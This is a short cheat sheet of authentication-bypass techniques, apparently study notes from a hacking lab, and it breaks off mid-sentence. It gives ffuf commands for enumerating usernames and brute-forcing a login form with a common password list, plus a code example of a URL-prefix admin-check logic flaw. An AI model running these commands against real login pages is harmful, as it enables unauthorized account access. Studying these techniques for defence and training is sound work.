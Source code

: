 # <center>Authentication Bypass</center>

## Usernamr Enumeration
- ffuf -w {path to wordlist} -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u {target's url} -mr "{message regex}"

## Bruteforce

### bruteforcing with ffuf
- ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

## Logic Flaw

- example:
    ```php
        if( url.substr(0,6) === '/admin') {
        # Code to check user is an admin
        }
        else {
        # View Page
        }
    ```
    -> if